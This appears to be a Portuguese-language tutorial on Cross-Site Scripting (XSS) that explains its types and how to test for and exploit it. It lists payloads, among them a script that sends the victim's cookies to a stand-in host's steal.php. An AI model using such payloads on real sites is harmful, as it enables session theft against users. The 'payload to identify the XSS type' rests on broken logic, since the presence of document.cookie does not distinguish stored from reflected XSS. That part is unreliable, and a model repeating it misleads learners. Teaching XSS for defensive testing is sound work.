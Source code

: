 **O que é Cross-Site Scripting (XSS)?**

  A Cross-Site Scripting (XSS) é uma vulnerabilidade de segurança que permite que um atacante injete código malicioso em uma página web, permitindo que o código seja executado pelo navegador do usuário. Isso ocorre quando um site não valida adequadamente as entradas de usuário e as utiliza para gerar conteúdo dinâmico.

  


**Como funciona?**

- Aqui está um exemplo de como funciona a XSS:
- Um usuário envia uma solicitação HTTP para um site, incluindo uma entrada maliciosa, como um parâmetro de consulta ou um campo de formulário.
- O site processa a solicitação e utiliza a entrada do usuário para gerar conteúdo dinâmico, como uma página HTML.
- Se o site não validar adequadamente a entrada do usuário, o código malicioso pode ser injetado na página e executado pelo navegador do usuário.

**Tipos de XSS**

- Existem três tipos principais de XSS:
- Stored XSS: O código malicioso é armazenado no servidor e é executado quando outros usuários acessam a página.
- Reflected XSS: O código malicioso é refletido de volta para o usuário na forma de uma página HTML.
- DOM-based XSS: O código malicioso é executado no lado do cliente, modificando o DOM (Document Object Model) da página.

**Como testar se um site é vulnerável?**

- Para testar se um site é vulnerável à XSS, você pode seguir os seguintes passos:
- Identifique os pontos de entrada do site, como campos de formulário, parâmetros de consulta e cabeçalhos HTTP.
- Insira entradas maliciosas nos pontos de entrada identificados, como código JavaScript (por exemplo, <script>alert('XSS')</script>).
- Verifique se o site executa o código malicioso e se retorna alguma saída.
- Se o site executar o código malicioso, é provável que seja vulnerável à XSS.

**Como explorar essa vulnerabilidade?**

- Para explorar a vulnerabilidade de XSS, você pode seguir os seguintes passos:
- Identifique o tipo de XSS que está sendo explorado (Stored, Reflected ou DOM-based).
- Construa um payload malicioso que execute uma ação desejada (por exemplo, roubar credenciais, redirecionar para um site falso, etc.).
- Insira o payload malicioso no ponto de entrada vulnerável.
- Verifique se o payload foi executado com sucesso.

**Payloads:**

- Aqui estão alguns exemplos de payloads que podem ser utilizados para explorar a vulnerabilidade de XSS:
- **<script>alert('XSS')</script>**: Executa um alerta JavaScript com a mensagem "XSS".
- **<script>document.location='http://example.com'</script>**: Redireciona o usuário para um site falso.
- **<script>var img = new Image(); img.src = '**[**http://example.com/steal.php?cookie=**](http://example.com/steal.php?cookie=)**' + document.cookie;</script>**: Rouba as credenciais do usuário e envia para um servidor remoto.

**Payload para identificar o tipo de XSS:**

- Aqui está um exemplo de payload que pode ser utilizado para identificar o tipo de XSS:



1<script>
2 if (document.cookie) {
3 alert('Stored XSS');
4 } else {
5 alert('Reflected XSS ou DOM-based XSS');
6 }
7</script>

  

  Ou:

  

  [**http://example.com/index.php?**](http://.)q=<script>%20if%20(document.cookie)%20{%20alert(%27Stored%20XSS%27);%20}%20else%20{%20alert(%27Reflected%20XSS%20ou%20DOM-based%20XSS%27);%20}%20</script>




  Este payload verifica se o código malicioso é armazenado no servidor (Stored XSS) ou se é refletido de volta para o usuário (Reflected XSS ou DOM-based XSS).


**Observações:**

- É importante lembrar que a exploração de vulnerabilidades de segurança deve ser feita de forma ética e responsável.
- É fundamental respeitar as leis e regulamentações aplicáveis e não causar danos a terceiros.
- É recomendável que os testes de segurança sejam realizados em ambientes controlados e com a permissão dos proprietários do site.

